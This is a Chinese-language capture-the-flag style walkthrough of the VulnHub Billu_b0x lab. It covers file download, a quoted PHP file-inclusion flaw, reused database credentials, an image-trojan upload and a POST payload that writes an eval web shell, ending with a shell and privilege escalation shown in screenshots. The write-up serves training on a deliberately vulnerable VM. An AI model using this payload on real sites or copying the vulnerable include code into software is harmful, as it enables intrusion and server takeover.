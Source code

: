 ### 环境搭建
>[https://download.vulnhub.com/billu/Billu_b0x.zip](https://download.vulnhub.com/billu/Billu_b0x.zip)   
hash:ebcb435522917a67b54274900b37c6af

### 开搞
#### 首先nmap开路    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_1.png)    
访问```http://192.168.14.149/```    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_2.png)
>向世界上最帅老男人致敬

查看HTML源码并没什么*用，SQLmap无果后遍历目录       
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_3.png)    
访问```http://192.168.14.149/test.php``` 报错缺少参数```file```    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_4.png)    
尝试POST提交```file=test.php```此处为任意文件下载，将目录遍历出的文件全部下载开始代码审计。     
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_5.png)    

#### 审计

主页登录成功后跳转至```panel.php```查看panel.php源码第33行起，当```load```为非add与show时可构造任意文件包含攻击   
```
if(isset($_POST['continue']))
{
	$dir=getcwd();
	$choice=str_replace('./','',$_POST['load']);
	
	if($choice==='add')
	{
       		include($dir.'/'.$choice.'.php');
			die();
	}
	
        if($choice==='show')
	{
        
		include($dir.'/'.$choice.'.php');
		die();
	}
	else
	{
		include($dir.'/'.$_POST['load']);
	}
	
}
```

文件上传验证文件后缀与文件类型，经测试无法构造绕过。
```
$image=array('jpeg','jpg','gif','png');
	if(in_array($r,$image))
	{
		$finfo = @new finfo(FILEINFO_MIME); 
	$filetype = @$finfo->file($_FILES['image']['tmp_name']);
		if(preg_match('/image\/jpeg/',$filetype )  || preg_match('/image\/png/',$filetype ) || preg_match('/image\/gif/',$filetype ))
```
#### 利用
```c.php```中找到数据库账号密码```billu/b0x_billu```,登录phpmyadmin找到用户名口令    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_6.png)    
登录成功后上传图片马到```uploaded_images/```目录下构造payload如下
```
POST /panel.php
continue=&load=uploaded_images/trial.png&trial=file_put_contents('test.php','<?php @eval($_POST[test]);?>');
```    
菜刀连接```uploaded_images/test.php```查看版本    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_7.png)    
反弹shell     
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_8.png)    
提权
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_9.png)    
[https://www.exploit-db.com/exploits/37292/](https://www.exploit-db.com/exploits/37292/)     
写入免密密匙  然后。。久就没有然后了
